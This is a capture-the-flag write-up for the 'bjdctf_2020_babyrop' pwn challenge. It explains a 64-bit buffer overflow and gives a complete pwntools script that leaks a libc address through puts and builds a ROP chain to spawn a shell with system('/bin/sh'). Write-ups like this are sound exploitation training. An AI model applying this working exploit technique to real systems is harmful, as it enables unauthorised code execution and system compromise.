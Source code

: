 ```yaml
---
title: 'bjdctf_2020_babyrop'
date: 2024-12-30 13:00:00 +0800
categories: [64bit,leak_libc]
tags: [ctf,pwn]
---
```

![image-20231229193724690](../assets/img/old_imgs/image-20231229193724690.png)

- `64`位泄露`libc`

- `vuln`的`buf`变量存在溢出

- `64`位函数传入的参数依次存在寄存器`rdi,rsi,rdx (顺序从左到右)`,返回值存在`rax`中

  ```shell
  bamuwe@qianenzhao:~/done/bjdctf_2020_babyrop$ ROPgadget --binary bjdctf_2020_babyrop --only 'pop|ret'|grep rdi
  0x0000000000400733 : pop rdi ; ret
  ```

  1. 溢出泄露`libc`
  2. 构造`payload`拿到`shell`

| rbp  |           |         |                    |      |
| ---- | --------- | ------- | ------------------ | ---- |
|      | padding   |         |                    | 0x20 |
|      |           | leave   |                    | 0x8  |
|      | pop_rdi   | ret     | 0x0000000000400733 |      |
|      | puts_got  | pop rdi |                    |      |
|      | puts_plt  | ret     |                    |      |
|      | main_addr | ret     |                    |      |

> payload1

| rbp  |          |         |                    |      |
| ---- | -------- | ------- | ------------------ | ---- |
|      | padding  |         |                    | 0x20 |
|      |          | leave   |                    | 0x8  |
|      | pop_rdi  | ret     | 0x0000000000400733 |      |
|      | /bin/sh` | pop rdi |                    |      |
|      | system   | ret     |                    |      |

> payload2

```python
from pwn import *
from LibcSearcher import LibcSearcher
io = process('./bjdctf_2020_babyrop')
#io = remote('node4.buuoj.cn',29488)
elf = ELF('./bjdctf_2020_babyrop')
payload1 = b'A'*0x28+p64(0x0000000000400733)+p64(elf.got['puts'])+p64(elf.plt['puts'])+p64(elf.sym['main'])
io.sendlineafter(b'Pull up your sword and tell me u story!\n',payload1)
puts_addr = u64(io.recv(6).ljust(8,b'\x00'))
print('puts_addr->',hex(puts_addr))

Lib = LibcSearcher('puts',puts_addr)
baseoffset = puts_addr - Lib.dump('puts')
sys_addr = baseoffset + Lib.dump('system')
bin_sh_addr = baseoffset + Lib.dump('str_bin_sh')

payload2 = b'A'*0x28+p64(0x0000000000400733)+p64(bin_sh_addr)+p64(sys_addr)
io.sendlineafter(b'Pull up your sword and tell me u story!\n',payload2)
io.interactive()
```
